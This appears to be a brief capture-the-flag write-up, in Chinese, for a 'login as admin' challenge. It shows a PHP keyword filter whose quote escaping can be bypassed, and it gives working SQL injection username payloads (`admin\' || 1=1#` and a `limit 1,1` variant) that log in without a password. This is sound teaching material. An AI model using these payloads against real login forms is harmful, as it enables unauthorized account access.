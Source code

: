 # login as admin 0
```php
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```
> 提示 SQL Injection!

把 `'` 過濾成 `\\'`，可以試試看利用它  
> username: `admin\' || 1=1#`  
> password: 隨便

發現登入的是 `guest`，嘗試用 `limit`  
> username: `admin\' || 1=1 limit 1,1#`  
> password: 隨便
